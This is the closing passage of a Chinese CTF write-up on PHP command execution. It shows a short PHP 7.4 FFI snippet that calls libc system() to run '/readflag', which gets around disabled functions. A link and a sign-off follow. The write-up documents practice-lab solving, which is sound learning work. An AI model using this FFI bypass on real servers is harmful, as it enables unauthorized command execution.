 ```php
c=$ffi = FFI::cdef("int system(const char *command);");
$a='/readflag > 1.txt';
$ffi->system($a);
```
看了hint说这是php7.4特性，留个链接参考：[php7.4中的FFI介绍](https://www.php.cn/php-weizijiaocheng-415807.html)
​

## 写在最后
命令执行第一部分到此结束啦，这里只作为个人做题记录，欢迎各位师傅斧正。
​

2021-11-26 15:09 By KonDream
